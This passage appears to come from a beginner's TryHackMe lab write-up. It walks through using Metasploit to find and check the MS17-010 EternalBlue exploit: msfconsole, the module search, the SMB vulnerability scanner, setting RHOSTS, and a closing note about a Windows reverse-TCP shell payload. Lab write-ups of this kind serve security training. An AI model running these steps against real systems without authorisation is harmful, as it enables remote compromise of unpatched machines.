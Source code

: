 1. *Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)*

    * To do this, we need to first run `Metasploit`. For the sake of keeping this tutorial brief, I personally think TryHackMe explains `Metasploit` very well. It is described as an open-source penetration-testing framework.
        
        > Consider `Metasploit` to be part of your arsenal as a wee-baby security engineer. Now that we have the hammer, we need to learn how to use it!

    * Fire up `Metasploit` by typing `msfconsole` into Kali Linux.

            NOTE: If you see any errors, mainly that of “Kernel Panic”, go to the settings of your Kali linux Machine in Virtual Box, then navigate to System -> Processor and enable both Extended Features (Enable PAE/NX & Enable Nested VT-x/AMD-v) to resolve this.

        *Before you move on, shout out Rapid7 for making this incredible tool for us to use.*

        Now, you should see something like this in your terminal!![metasploit startup](Task_2_Image_1.jpg)

    * In the shell prompt, type `search ms17-010` to search for the RCE exploit we found earlier. You should see 6 matching modules appear. While there are many directories beginning with “exploit…” as the question suggests, we are looking for module 3 in particular.
    
        - This also happens to be the answer to our question: **exploit/windows/smb/ms17_010_eternalblue_win8**

2. *Show options and set the one required value. What is the name of this value? (All caps for submission).*

    * As *m0rn1ngstr* recommends, we should first check if the host is vulnerable before trying an exploit. To do this, we will use an auxiliary module (module #1 to be exact).

        > From m0rn1ngstr: “Auxiliary - An auxiliary module does not execute a payload. It can be used to perform arbitrary actions that may not be directly related to exploitation. Examples of auxiliary modules include scanners, fuzzers, and denial of service attacks.”
    
    * In the Metasploit shell, type `use 1`. 
        
        - Alternatively, type: `use auxiliary/scanner/smb smb_ms17_010`

    * Then, type `options` to see the state of `RHOSTS`, which dictates the target of the scan. It will initially be blank. *This option is required and must be set before we can continue*.

        - We want to set `RHOSTS` as the IP address of our target machine, which is the IP Address from the *Active Machine Information* on TryHackMe.

            - Type `set RHOSTS [ACTIVE_INFO_IP_ADDRESS]`

            - You should see shell output indicating the new value of `RHOSTS`. If you want to confirm the change, type `options` again.

    * For the purposes of this question, the answer is **RHOSTS**, the option we needed to set to our target IP.

3. *There are no more questions to explcitly answer in this section. I will start with some notes regarding instructions seen on TryHackMe. At the end of this section, make sure to mark the last two steps as done.*

        NOTE: TryHackMe suggests the usage of the command `set payload windows/x64/shell/reverse_tcp`
    
